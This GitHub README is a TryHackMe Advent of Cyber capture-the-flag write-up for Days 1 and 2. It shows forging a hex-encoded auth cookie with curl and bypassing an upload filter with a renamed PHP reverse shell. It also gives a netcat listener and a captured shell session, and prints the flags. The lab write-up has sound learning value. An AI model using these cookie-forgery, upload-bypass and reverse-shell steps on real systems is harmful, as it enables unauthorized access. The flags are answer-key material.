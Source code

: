 # thm-advent
Try Hack Me Advent of Cyber Security

Event Homepage: [`https://tryhackme.com/christmas`](https://tryhackme.com/christmas)

## Checklist

- [x] Day 1 - A Christmas Crisis
- [x] Day 2 - The Elf Strikes Back
- [ ] Day 3 - Christmas Chaos
- [ ] Day 4 - Santa's watching
- [ ] Day 5 - Someone stole Santa's gift list!
- [ ] Day 6 - Be careful with what you wish on a Christmas night
- [ ] Day 7 - Coal for Christmas
- [ ] Day 8 - The Grinch Really Did Steal Christmas
- [ ] Day 9 - What's Under the Christmas Tree?
- [ ] Day 10 - Anyone can be Santa!
- [ ] Day 11 - Don't be Elfish!
- [ ] Day 12 - The Rogue Gnome
- [ ] Day 13 - Ready, set, elf.
- [ ] Day 14 - Where's Rudolph?
- [ ] Day 15 - There's a Python in my stocking!
- [ ] Day 16 - Help! Where is Santa?
- [ ] Day 17 - ReverseELFneering
- [ ] Day 18 - The Bits of the Christmas
- [ ] Day 19 - The Naughty or Nice List
- [ ] Day 20 - PowershELlF to the rescue
- [ ] Day 21 - Time for some ELForensics
- [ ] Day 22 - Elf McEager becomes CyberElf
- [ ] Day 23 - The Grinch strikes again!
- [ ] Day 24 - The Trial Before Christmas

## Day 1: A Christmas Crisis

*Category: Web Exploitation*  
*Tags: HTTP, Cookies*  

> Understand how the web works and take back control of the Christmas Command Centre!

IP: `10.10.161.100`

### Basic enumeration

Firstly, I checked out the web server running on port 80 (HTTP).

![screenshot](day01-christmas-crisis/ChristmasControlCenterLogin.png)

I register for an account using the credentials `admin:bluemoon` and then log in with those credentials.

![screenshot](day01-christmas-crisis/ChirstmasControlCenterControlPanel.png)

### What is the name of the the cookie used for authentication?

The name of the authentication cookie is: `auth`.

### What format is the value of this cookie encoded and what format is the data stored in?

The value of the auth cookie is: `7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a2261646d696e227d`.  

Putting the entire thing into [CyberChef](https://gchq.github.io/CyberChef/), we find that it is using `hexadecimal` to encode the string: `{"company":"The Best Festival Company", "username":"admin"}`.  

The data is stored in `JSON` format.  

### Bypassing the authentication

We can encode `{"company":"The Best Festival Company", "username":"santa"}` into hexadecimal to find the value of santa's authentication token.  

Value of the santa cookie: `7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a2273616e7461227d`.  

After setting the auth cookie to that string, we get access to the santa account and full control panel access.

### Getting the flag

I'm not sure why but I got a bit stuck here. Turns out, you just flick all the switches and you get the final flag: `THM{MjY0Yzg5NTJmY2Q1NzM1NjBmZWFhYmQy}`.

### Making a [solve script](day01-christmas-crisis/solve.sh)

I noticed that the program sends a post request to `http://10.10.161.100/api/checkflag`. I noticed it also sent the cookie along with it. Therefore, I decided to send a POST request to the URL with the cookie and lo and behold, the flag! Here, I did it using curl in bash:  
```bash
curl -X POST -H "Cookie: auth=7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a2273616e7461227d" http://10.10.161.100/api/checkflag;
```
I have also included the shell script I wrote in the day01-christmas-crisis directory. 

## Day 2: The Elf Strikes Back

*Category: Web*  
*Tags: RCE*  

> Learn about basic file upload filter bypasses by performing a security audit on the new security management server!

IP: `10.10.119.58`

### Basic enumeration

Firstly, I checked the HTTP server running on port 80.

![screenshot](day02-elf-strikes-back/initial_page.png)

### What string of text needs added to the URL to get access to the upload page?

We can use the id given to us (`ODIzODI5MTNiYmYw`) to find an upload page at `http://10.10.119.58/?id=ODIzODI5MTNiYmYw`.

![screenshot](day02-elf-strikes-back/initial_page_id.png)

### What type of file is accepted by the site?

If we examine the source code, we find the following the the HTML code:
```HTML
<input type=file id="chooseFile" accept=".jpeg,.jpg,.png">
```
It turns out that this page only accepts image files.

### In which directory are the uploaded files stored?

After poking around in the address bar, I found that the uploads are kept in the `/uploads/` directory.  

We can find the uploaded files at `http://10.10.119.58/uploads/`.

### Getting a shell

Firstly, I wanted to find out what was running the web server. Therefore, I opened the network tab and reloaded the page to get the response headers.

![screenshot](day02-elf-strikes-back/network_tab.png)

We see that the server is running Apache 2.4.37 on CentOS powered by PHP. Therefore, I got a PHP reverse shell script from [Pentest Monkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php).  

Be sure to change the following lines in the PHP file:
```php
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

Then, I renamed the file to `php-reverse-shell.jpg.php` to circumvent the checks and uploaded the file.

**Establishing the reverse shell connection**

Since I set the PHP reverse shell to connect on port 4444, I set up a netcat listener on that port.

```sh
nc -lvnp 4444
```

Finally, I visited the following URL `http://10.10.119.58/uploads/` to run the PHP script.  

I was then greated by this beautiful message:

```
Listening on 0.0.0.0 4444
Connection received on 10.10.119.58 54002
Linux security-server 4.18.0-193.28.1.el8_2.x86_64 #1 SMP Thu Oct 22 00:20:22 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:25:23 up 41 min,  0 users,  load average: 0.00, 0.00, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: cannot set terminal process group (823): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$
```

Bingo! Now that we have a reverse shell, what next?

### What is the flag in /var/www/flag.txt?

First, I made sure I was successfully connected to the server:

```
sh-4.4$ whoami
whoami
apache
sh-4.4$ pwd
pwd
/
```

Now that we have a shell, we can read the flag:

```
sh-4.4$ cat /var/www/flag.txt
cat /var/www/flag.txt


==============================================================


You've reached the end of the Advent of Cyber, Day 2 -- hopefully you're enjoying yourself so far, and are learning lots! 
This is all from me, so I'm going to take the chance to thank the awesome @Vargnaar for his invaluable design lessons, without which the theming of the past two websites simply would not be the same. 


Have a flag -- you deserve it!
THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}


Good luck on your mission (and maybe I'll see y'all again on Christmas Eve)!
 --Muiri (@MuirlandOracle)


==============================================================
```

And so with that, we get a nice message and the flag: `THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}`.
